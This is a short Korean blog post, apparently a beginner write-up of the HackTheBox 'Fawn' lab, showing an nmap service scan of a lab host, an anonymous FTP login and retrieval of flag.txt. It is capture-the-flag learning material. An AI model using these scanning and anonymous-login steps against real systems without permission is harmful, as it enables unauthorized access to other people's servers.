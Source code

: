 ```yaml
---
title: HTB Fawn Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox, FTP]
images:
    path: /assets/image_post/20240203134342.png
---
```

핵더박스 두번째 기본 문제
![](../assets/image_post/20240203132223.png)
5번 | 평소에 nmap은 -Pn 옵션이나 기본 옵션으로만 사용해서 이런 옵션이 있는지 몰랐다.
![](../assets/image_post/20240203132929.png)
``` bash
 ✘ read-min 🍻   ~/Documents/Git/read-min.github.io   main  nmap -sV 10.129.131.24
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-03 13:29 KST
Nmap scan report for 10.129.131.24
Host is up (0.27s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.51 seconds
```

ftp에 접속하는 방법은 아래와 같다.
``` bash
 read-min 🍻   ~/Documents/Git/read-min.github.io   main  ftp 10.129.131.24

Connected to 10.129.131.24.
220 (vsFTPd 3.0.3)
Name (10.129.131.24:km): anonymous
331 Please specify the password.
Password:
230 Login successful.
```
어떤 파일이 있는지 확인해본 결과 flag.txt 파일이 존재한다. get 명령어를 통해 다운로드 후 확인하면 플래그 획득이 가능하다.
``` bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.000674 seconds (46.4 kbytes/s)
```
쉽지만 차근 차근 기초부터 쌓아간다는 마음으로 꾸준히 해보자. 공부보단 즐긴다는 느낌으로
![](../assets/image_post/20240203134342.png)